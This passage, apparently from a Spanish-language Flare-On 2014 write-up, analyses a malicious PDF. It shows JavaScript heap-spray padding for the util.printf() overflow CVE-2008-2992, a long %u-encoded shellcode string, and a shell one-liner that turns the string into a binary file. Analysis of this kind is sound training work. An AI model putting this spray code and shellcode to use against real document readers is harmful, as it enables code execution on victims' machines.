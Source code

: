 ```javascript
substr4 = output2.substring(0, output2.length-offset2);
while(substr4.length+offset2 < 0x40000) substr4 = substr4+substr4+substr3;
array2 = new Array();
for (i=0;i<125;i++) array2[i] = substr4 + output2;
```

El codigo se comprende un poco mejor, pero lo que tenemos es basicamente padding para el payload. Con esta información, investigando un poco tenemos que se trata de un exploit de una funcion llamada util.printf() que desencadena un buffer overflow, CVE-2008-2992, lo cual nos permite ejecutar codigo a nivel de user space. Para mas referencia, podemos visitar el siguiente [enlace](https://resources.infosecinstitute.com/hacking-pdf-part-1/).

Convirtamos ahora el unicode 16 a un archivo binario:

```bash
xbytemx@laptop:~/flare-on2014/challenge04$ echo "%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff" | sed 's/\%u//g' | xxd -r -p | dd conv=swab of=shellcode.bin
```

Rapidamente imprimimos el codigo unicode16, sustituimos la parte que dice que es unicode y le indicamos a xxd que haga la conversion de hexa a binario en una sola linea. Finalmente uso DD para cambiar el endianess y salvar el binario.


  [c2c76e1c]: http://www.flare-on.com/files/2014_FLAREOn_Challenges.zip "Flare-On 2014"
  [peepdf]: https://github.com/jesparza/peepdf "PeePDF"